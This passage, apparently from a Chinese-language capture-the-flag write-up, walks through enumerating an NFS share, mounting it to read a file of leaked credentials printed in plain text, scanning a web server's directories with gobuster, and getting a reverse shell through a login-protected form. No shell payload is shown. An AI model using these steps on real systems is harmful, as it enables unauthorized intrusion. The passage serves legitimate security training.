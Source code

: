 ## NFS

在 rpcbing 的输出中存在 nfs 所以我们可以尝试枚举 nfs 服务, 这里我们可以看到一个共享文件夹, 经过查看从这里获取到了一个凭证

```bash
root@ip-10-10-145-85:~/cooctusadventures# showmount -e 10.10.161.120
Export list for 10.10.161.120:
/var/nfs/general *
root@ip-10-10-145-85:~/cooctusadventures# mkdir  general
root@ip-10-10-145-85:~/cooctusadventures# mount -t nfs 10.10.161.120:/var/nfs/general ./general/ -o nolock
root@ip-10-10-145-85:~/cooctusadventures# cd general/
root@ip-10-10-145-85:~/cooctusadventures/general# ls -al
total 12
drwxr-xr-x 2 nobody nogroup 4096 Nov 21  2020 .
drwxr-xr-x 3 root   root    4096 Sep 30 03:02 ..
-rw-r--r-- 1 root   root      31 Nov 21  2020 credentials.bak
root@ip-10-10-145-85:~/cooctusadventures/general# cat credentials.bak 
paradoxial.test
ShibaPretzel79
root@ip-10-10-145-85:~/cooctusadventures/general
```

## 80

进行目录扫描

```bash
root@ip-10-10-145-85:~/cooctusadventures# gobuster dir -u http://10.10.161.120:8080/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.161.120:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,txt
[+] Timeout:        10s
===============================================================
2023/09/30 03:05:32 Starting gobuster
===============================================================
/login (Status: 200)
/cat (Status: 302)
```

在访问时发现需要登陆, 因此使用上面得到的密码进行登陆 (注意 : 要在 cat 中进行操作, 否则不会跳转), 在登陆之后有一个发送的窗口所以我在此之间执行了反向 shell 命令, 就得到了 Shell

## 后渗透
